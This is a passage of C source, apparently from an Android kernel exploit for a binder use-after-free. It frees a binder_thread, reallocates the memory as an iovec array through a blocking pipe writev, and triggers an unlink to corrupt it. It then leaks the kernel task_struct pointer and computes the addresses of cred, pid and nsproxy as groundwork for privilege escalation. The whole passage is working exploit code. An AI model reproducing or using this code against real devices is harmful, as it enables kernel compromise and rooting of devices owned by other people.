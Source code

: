 ``` c
        // Trigger the unlink operation on the reallocated chunk
        unlinkEventPollWaitQueueFromBinderThreadWaitQueue();
        //
        // First interesting iovec will read 0x1000 bytes of data.
        // This is just the junk data that we are not interested in
        //
        nBytesRead = read(pipe_fd[0], dataBuffer, sizeof(dataBuffer));
        if (nBytesRead != PAGE_SIZE) {
            ERR("\t[-] CHILD: read failed. nBytesRead: 0x%lx, expected: 0x%x", nBytesRead, PAGE_SIZE);
            exit(EXIT_FAILURE);
        }
        exit(EXIT_SUCCESS);
    }
    // parent process
    // I have seen some races which hinders the reallocation.
    // So, now freeing the binder_thread after fork.
    //
    freeBinderThread();
    //
    // Reallocate binder_thread as iovec array
    //
    // We need to make sure this writev call blocks
    // This will only happen when the pipe is already full

    // This print statement was ruining the reallocation,
    // spent a night to figure this out. Commenting the
    // below line.
    //
    // INFO("[+] Reallocating binder_thread\n");

    ssize_t nBytesWritten = writev(pipe_fd[1], iovecStack, IOVEC_COUNT);
    // If the corruption was successful, the total bytes written
    // should be equal to 0x2000. This is because there are two
    // valid iovec and the length of each is 0x1000
    if (nBytesWritten != PAGE_SIZE * 2) {
        ERR("\t[-] writev failed. nBytesWritten: 0x%lx, expected: 0x%x\n", nBytesWritten, PAGE_SIZE * 2);
        exit(EXIT_FAILURE);
    } else {
        INFO("\t[*] Wrote 0x%lx bytes\n", nBytesWritten);
    }
    // Now read the actual data from the corrupted iovec
    // This is the leaked data from kernel address space
    // and will contain the task_struct pointer
    nBytesRead = read(pipe_fd[0], dataBuffer, sizeof(dataBuffer));
    if (nBytesRead != PAGE_SIZE) {
        ERR("\t[-] read failed. nBytesRead: 0x%lx, expected: 0x%x", nBytesRead, PAGE_SIZE);
        exit(EXIT_FAILURE);
    }
    // Wait for the child process to exit
    wait(nullptr);
    m_task_struct = (struct task_struct *) *((int64_t *) (dataBuffer + TASK_STRUCT_OFFSET_IN_LEAKED_DATA));

    m_pidAddress = (void *) ((int8_t *) m_task_struct + offsetof(struct task_struct, pid));
    m_credAddress = (void *) ((int8_t *) m_task_struct + offsetof(struct task_struct, cred));
    m_nsproxyAddress = (void *) ((int8_t *) m_task_struct + offsetof(struct task_struct, nsproxy));
    INFO("[+] Leaked task_struct: %p\n", m_task_struct);
    INFO("\t[*] &task_struct->pid: %p\n", m_pidAddress);
    INFO("\t[*] &task_struct->cred: %p\n", m_credAddress);
    INFO("\t[*] &task_struct->nsproxy: %p\n", m_nsproxyAddress);
}
```
